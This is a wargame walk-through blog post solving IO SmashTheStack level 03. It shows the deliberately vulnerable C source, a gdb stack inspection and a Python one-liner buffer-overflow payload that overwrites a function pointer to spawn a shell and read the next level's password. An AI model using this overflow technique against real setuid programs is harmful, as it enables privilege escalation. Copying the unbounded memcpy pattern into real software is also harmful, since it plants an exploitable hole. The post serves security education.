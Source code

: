 +++
title = "IO Smash the stack level 03"
date = "2016-01-26T09:33:00-02:00"
publishdate = "2016-01-26"
categories =["Security"]
tags = ["Wargames", "C"]
slug = "io-smashthestack-level-03"
project_url = "https://greyhat.dk/io-smashthestack-level-03"
type = "post"
description = "Walk-through"
+++

## Level03

```sh
level3@io:~$ cd /levels/
level3@io:/levels$ ls -latr level03*
-r-------- 1 level3 level3  658 Sep 22  2012 level03.c
-r-sr-x--- 1 level4 level3 5238 Sep 22  2012 level03
```

level3@io:/levels$ cat level03.c
```c
//bla, based on work by beach

#include <stdio.h>
#include <string.h>

void good()
{
        puts("Win.");
        execl("/bin/sh", "sh", NULL);
}
void bad()
{
        printf("I'm so sorry, you're at %p and you want to be at %p\n", bad, good);
}

int main(int argc, char **argv, char **envp)
{
        void (*functionpointer)(void) = bad;
        char buffer[50];

        if(argc != 2 || strlen(argv[1]) < 4)
                return 0;

        memcpy(buffer, argv[1], strlen(argv[1]));
        memset(buffer, 0, strlen(argv[1]) - 4);

        printf("This is exciting we're going to %p\n", functionpointer);
        functionpointer();

        return 0;
}
```

Oki so in order for us to get the shell we need to change the function pointer from `bad` to `good`. Since the program is so nice to provide us with the address of the funtion good

```sh
level3@io:/levels$ ./level03 aaaa
This is exciting we're going to 0x80484a4
I'm so sorry, you're at 0x80484a4 and you want to be at 0x8048474
```

And since we are running in an little endian machine (reverse byte order) we need to reverse the address to \x74\x84\x04\x08 but first we need to find out where to put the address (Sure we could use brute force). But lets have a look at the stack

```sh
level3@io:/levels$ gdb -q level03
Reading symbols from /levels/level03...(no debugging symbols found)...done.
(gdb) r AAAA
Starting program: /levels/level03 AAAA
This is exciting we're going to 0x80484a4
I'm so sorry, you're at 0x80484a4 and you want to be at 0x8048474
[Inferior 1 (process 18072) exited normally]
(gdb) break *0x0804855d <--- break just after the copy
Breakpoint 1 at 0x804855d
(gdb) r AAAA
Starting program: /levels/level03 AAAA

Breakpoint 1, 0x0804855d in main ()
(gdb) x/32x $esp
0xbffffc50:	0xbffffc70	0x00000000	0x00000000	0x00000001
0xbffffc60:	0xb7fff908	0xbffffc96	0xbffffca0	0xb7ef098c
0xbffffc70:	0x41414141	0xb7e9e315	0xbffffc97	0x00000001 <--- 0x41 = A
0xbffffc80:	0x00000000	0x080497c8	0xbffffc98	0x08048338
0xbffffc90:	0xb7ff0590	0x080497c8	0xbffffcc8	0x080485a9
0xbffffca0:	0xb7fcf324	0xb7fceff4	0x08048590	0xbffffcc8
0xbffffcb0:	0xb7e9e515	0xb7ff0590	0x0804859b	0x080484a4 <--- bad pointer (function pointer)
0xbffffcc0:	0x08048590	0x00000000	0xbffffd48	0xb7e85e46
(gdb) print 0xbffffcbc - 0xbffffc70
$1 = 76
```

So lets try to exploit it

```sh
level3@io:/levels$ ./level03 $(python -c 'print "A"*76 + "\x74\x84\x04\x08"')
This is exciting we're going to 0x8048474
Win.
sh-4.2$ cat /home/level4/.pass
XXXXXXXXXXXXXXXX
```

